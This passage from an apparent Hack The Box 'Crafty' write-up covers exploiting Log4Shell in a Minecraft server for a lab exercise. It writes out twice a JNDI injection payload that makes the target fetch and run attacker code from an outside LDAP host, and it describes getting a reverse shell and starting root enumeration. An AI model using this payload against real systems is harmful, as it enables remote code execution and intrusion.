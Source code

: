 - With the command `javac`, he created `Log4jRCE.class`, which will execute a `curl` command to the pentester's server on port 80, to confirm the vulnerability.

```bash
javac Log4jRCE.java
# Log4jRCE.class
```

- The pentester set up the `Minecraft` server in order to later connect to it.

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613194427.png)

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613200425.png)

- Then he sent the following chat message in order to exploit the `Log4j` vulnerability

```
${jndi:ldap://10.10.14.151:1389/Log4jRCE}
```

- Great! The pentester confirmed that the `curl` command was executed.

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613195448.png)


## User

- Then he created a `Log4jRCE.java` file that would allow him to establish a reverse shell.

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613200534.png)

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613232048.png)

- After generating the `Log4jRCE.class`, he sent the same chat message in `Minecraft` and received a reverse shell

```
${jndi:ldap://10.10.14.151:1389/Log4jRCE}
```

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613200738.png)

- Reading `user.txt`

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613202725.png)

## Root
- After an extensive enumeration, the pentester found the plugin `playercounter-1.0-SNAPSHOT.jar`. This plugin likely serves to obtain the player count from another server to prevent a player from joining the server if there are too many players ([Source](https://www.spigotmc.org/threads/bungeecord-messaging-how-to-easily-get-the-player-count-of-another-server.570486/)). So, it's possible to obtain connection strings within it!

![](/assets/images/HTB-Writeup-Crafty/Pasted image 20240613235007.png)
